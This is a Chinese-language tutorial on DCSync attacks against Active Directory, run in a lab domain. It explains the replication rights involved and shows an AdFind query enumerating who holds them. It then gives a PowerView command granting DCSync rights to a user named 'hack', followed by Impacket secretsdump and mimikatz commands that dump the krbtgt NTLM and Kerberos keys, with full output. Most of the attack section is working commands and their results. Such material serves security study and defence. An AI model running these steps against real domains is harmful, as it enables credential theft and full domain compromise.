


1、默认每15分钟不同域控都会同步一次（只读域控除外）

2、DCSync利用两个RPC接口（drsuapi和dsaop）来远程获取账号Hash

# 一、DCSync的工作原理
当一个域控希望从另一个域控获得活动目录对象更新时，客户端域控会向服务端域控发起DRSGetNCChanes请求。如果更新集太大，将会产生多个DRSGetNCChanes请求和响应。这个过程被称为复制周期或简单的循环。

# 二、修改DCSync ACL
## 1、具有DCSync权限的用户
默认以下用户有权限

1）Administrators组的用户

2）Domain Admins组内的用户

3）Enterprise Admins组内的用户

4）域控计算机账户

使用Adfind查询域内具备DCSync权限的用户

触发 DCSync 的条件是主体对 _域命名上下文_ 根对象 (DN 形如 `DC=corp,DC=local`) 拥有下列 **三项** 复制类扩展权限中的任意一项：

+ **DS-Replication-Get-Changes**`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`
+ **DS-Replication-Get-Changes-All**`1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`
+ **DS-Replication-Get-Changes-In-Filtered-Set**`89e95b76-444d-4c62-991a-0facbeda640c`

```plain
C:\Users\Administrator\Desktop\AdFind>AdFind.exe -s subtree -b "DC=sec,DC=local" -recmute -sdna nTSecurityDescriptor -sddl+++ -sddlfilter ;;;"Replicating Directory Changes";;

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.6054)

dn:DC=sec,DC=local
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;SEC\Enterprise Read-only Domain Controllers
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes All;;SEC\Domain Controllers
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes In Filtered Set;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes All;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes In Filtered Set;;NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS

dn:CN=Builtin,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;SEC\Enterprise Read-only Domain Controllers
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes All;;SEC\Domain Controllers
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes In Filtered Set;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes All;;BUILTIN\Administrators
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes In Filtered Set;;NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS

2 Objects returned
```

## 2、修改DCSync的ACL
1）图形化修改权限

赋予用户DCSync权限



配置两个权限，Replicating Directory Changes和Replicating Directory Changes All



2）PowerShell修改权限

```plain
PS C:\Users\administrator.SEC\Desktop> Add-DomainObjectAcl -TargetIdentity 'DC=sec,DC=local' -PrincipalIde hack -Rights DCSync -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2019-DC1.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=hack)(name=hack)(displayname=hack))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2019-DC1.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'sec.local' from 'DC=sec,DC=local'
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2019-DC1.SEC.LOCAL/DC=sec,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=DC=sec,DC=local)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local 'DCSync' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local rights GUID
'1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local rights GUID
'1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local rights GUID
'89e95b76-444d-4c62-991a-0facbeda640c' on DC=sec,DC=local
PS C:\Users\administrator.SEC\Desktop>
```

# 三、DCSync攻击
## 1、Impacket
```plain
┌──(root㉿Kali)-[~]
└─# secretsdump.py sec.com/hack@10.10.4.2 -hashes :27d86657f458a28aeed03655ba6a6137 -just-dc-user krbtgt
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1258230d20deb8fa8c0ee72e014ae813:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
krbtgt:aes128-cts-hmac-sha1-96:48387c994c399862ae5ef5a7c86f0c8e
krbtgt:des-cbc-md5:512a436789e32394
[*] Cleaning up...

```

## 2、mimikatz
```plain
PS C:\Users\administrator.SEC\Desktop\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:sec.local /user:krbtgt
[DC] 'sec.local' will be the domain
[DC] 'Win2019-DC1.sec.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/13/2025 6:15:53 PM
Object Security ID   : S-1-5-21-2066713137-2133816201-3751750268-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 1258230d20deb8fa8c0ee72e014ae813
    ntlm- 0: 1258230d20deb8fa8c0ee72e014ae813
    lm  - 0: c7c3b6958f128b60d06caf736446453d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f1004b469d92f301e4fb37b3edb5ee71

* Primary:Kerberos-Newer-Keys *
    Default Salt : SEC.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
      aes128_hmac       (4096) : 48387c994c399862ae5ef5a7c86f0c8e
      des_cbc_md5       (4096) : 512a436789e32394

* Primary:Kerberos *
    Default Salt : SEC.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 512a436789e32394

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  2e3046611df3919f1b9e8ef76968b810
    02  adbba324cdcd139cff47a0fed93b45aa
    03  7b823bba86d441817a9702306357c980
    04  2e3046611df3919f1b9e8ef76968b810
    05  adbba324cdcd139cff47a0fed93b45aa
    06  c9348996c20adf04e88e6cd21fe0c27c
    07  2e3046611df3919f1b9e8ef76968b810
    08  27c93d029a42407ef9660469af2a8f95
    09  27c93d029a42407ef9660469af2a8f95
    10  7008e3883653fb7adaa36ffa24830a45
    11  b97d7d1d5a6814a4854d9200c73b8b57
    12  27c93d029a42407ef9660469af2a8f95
    13  e320a9f7c554c544f0a0c43d2ec73f3e
    14  b97d7d1d5a6814a4854d9200c73b8b57
    15  bcc357ef5b3e08cd607f81caf72900f6
    16  bcc357ef5b3e08cd607f81caf72900f6
    17  66a2cd9667407f4bdedc0c4577ce1b5e
    18  4ac8573a0acd612dcc6a6d12d68d9b02
    19  1039fe58276b90e0cb300cc5676e01fc
    20  dd1dd7e06e8bd7a3c08bf2285d22c7bc
    21  05fa7bbd15285fa7eeff4ffcdf0ddb7b
    22  05fa7bbd15285fa7eeff4ffcdf0ddb7b
    23  94979913c8ca52121e067d1ef49f0638
    24  6ff9c4aa1f4c93ac5b6489deef8d2457
    25  6ff9c4aa1f4c93ac5b6489deef8d2457
    26  e90bed305a64b2644ed0ce774ad4e3f7
    27  1608d7de7abaa27e07048c048264cce4
    28  7c5971abc1801311fe5b4d10f47b0e68
    29  281330b6acae2005fd77da5b8029b17d

mimikatz #

```